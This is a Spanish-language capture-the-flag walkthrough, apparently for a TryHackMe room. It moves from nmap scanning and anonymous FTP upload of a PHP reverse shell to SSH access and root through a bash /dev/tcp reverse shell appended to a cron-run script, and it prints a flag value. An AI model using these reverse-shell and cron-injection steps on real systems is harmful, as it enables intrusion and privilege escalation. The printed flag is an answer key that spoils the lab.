





Lo primero que haremos será hacer un nmap con el siguiente comando: 
sudo nmap -A -sV -sC -T4 -p- --defeat-rst-ratelimit 10.10.92.79

Ahora intentamos hacer fuzzing 
gobuster dir -u http://10.10.92.79/ -w /usr/share/wordlists/dirb/big.txt 

Y miramos y hay un /files si accedemos podemos ver que hay un servidor ftp:
Intentamos conectarnos con anonymous con el siguiente comando: 

ftp anonymous@10.10.92.79

 
Una vez dentro haremos un put e intentaremos meter una reverse shell: 
put /home/kali/Desktop/php-reverse-shell.php ./php-reverse-shell.php
Y ahora la ejecutamos y ponemos en escucha nuestro kali linux: 
nc -lvnp 1234 y ya hemos entrado, ahora vamos a upgradear la shell con: 
python -c 'import pty; pty.spawn("/bin/bash")'

 
Y sale que el ingrediente es /love, así que ya tenemos la primera respuesta.
Ahora hacemos un ls y vemos un directorio sospechoso, dentro vemos un pcap, nos lo pasamos a nuestra maquina con el comando: 
cp /incidents/suspicious.pcapng /var/www/html/files/ftp
Y si lo abrimos con el wireshark veremos que hay varias peticiones al puerto 4444, le damos a follow --> TCP Stream y podemos ver algunos comandos donde encontramos la contraseña de lennie.

 
Y ahora intentamos entrar por ssh con el siguiente comando: 
ssh lennie@10.10.92.79 y ya estamos dentro.
 

Si hacemos un cat user.txt vemos la segunda flag la cual es: THM{***************}

Ahora haremos el siguiente comando para ver los binarios: 
find / -perm -u=s -type f 2>/dev/null
Y ahora hacemos un ls -lart y vemos que el script se puede ejecutar como root y que cada minuto se está actualizando, por lo tanto lleva un crontab y una tarea programada.

 
Y buscamos bash reverse shell y lo metemos en el print.sh y ya ponemos el puerto en escucha y hacemos un ls y tenemos la flag.
Usando pspy64 pude ver que planner.sh se ejecuta cada minuto y modifica el contenido de startup_list.txt. 

 
Ahora haremos este comando para modificar /etc/print.sh
echo “bash -i >& /dev/tcp/<attackbox_ip>/<listening_port> 0>&1” >> /etc/print.sh”
Ahora pondremos el comando rlwrap nc .nlvp 4444 y en un minuto tendremos ya la Shell, accedemos con un ls y ya tenemos la flag: THM{f963aaa6a430f210222158ae15c3d76d}

